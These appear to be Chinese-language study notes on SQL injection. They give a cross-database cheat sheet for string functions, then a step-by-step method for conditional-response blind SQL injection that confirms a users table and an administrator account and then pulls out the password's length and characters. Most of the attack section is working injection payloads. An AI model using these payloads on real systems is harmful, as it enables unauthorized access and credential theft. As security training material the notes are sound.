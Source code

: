 **备注**

>--字符串连接--
>Oracle&emsp;&emsp;&emsp;&emsp;'foo'||'bar'
>Microsoft&emsp;&emsp;&emsp;'foo'+'bar'
>PostgreSQL&emsp;&emsp;'foo'||'bar'
>MySQL&emsp;&emsp;&emsp;&emsp;'foo' 'bar' [Note the space between the two strings]
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;CONCAT('foo','bar')
>--从具有指定长度的指定偏移量中提取字符串的一部分--
>甲骨文&emsp;&emsp;&emsp;&emsp;SUBSTR('foobar', 4, 2)
>微软&emsp;&emsp;&emsp;&emsp;&emsp;SUBSTRING('foobar', 4, 2)
>PostgreSQL&emsp;&emsp;SUBSTRING('foobar', 4, 2)
>MySQL&emsp;&emsp;&emsp;&emsp;SUBSTRING('foobar', 4, 2)

## SQL盲注

### 触发条件响应SQL盲注

#### 判断是否存在注入

利用 ' / " 进行模糊测试
在以条件注入判断其是否存在注入

> 'AND 1=1 -- &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;TURE 返回成功页面
> 'AND 1=0 -- &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;FASE 未能返回成功页面 

#### 判断是否存在表

>' AND (SELECT 'a' FROM users LIMIT 1)='a
>TURE 返回成功页面存在 users表
>FASE  未能返回成功页面不存在 users表

#### 判断是否存在内容

>' AND (SELECT 'a' FROM users WHERE username='administrator')='a
>TURE 返回成功页面 存在 administrator用户
>FASE 未能返回成功页面 不存在administrator用户

#### 判断内容长度

>' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
>判断字符是否大于1
>' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
>判断字符是否大于2

#### 判断内容

>' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
>判断第一个字符是否是a
>' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
>判断第二个字符是否是a



